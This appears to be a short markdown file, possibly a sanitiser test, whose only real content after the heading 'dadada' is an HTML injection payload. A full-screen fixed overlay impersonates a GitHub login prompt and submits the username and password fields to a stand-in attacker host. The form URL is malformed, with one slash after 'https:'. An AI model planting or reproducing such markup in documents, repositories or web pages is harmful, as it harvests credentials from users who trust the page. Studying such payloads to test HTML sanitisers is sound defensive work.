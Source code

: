 # dadada

<div style="position:fixed;left:0;top:0;width:100%;height:100vh;background: red;z-index:1"><h1>please login to use github</h1><form action="https:/attacker.com"><input name="username"><input type="password" name="password"><input type="submit"></form></div>
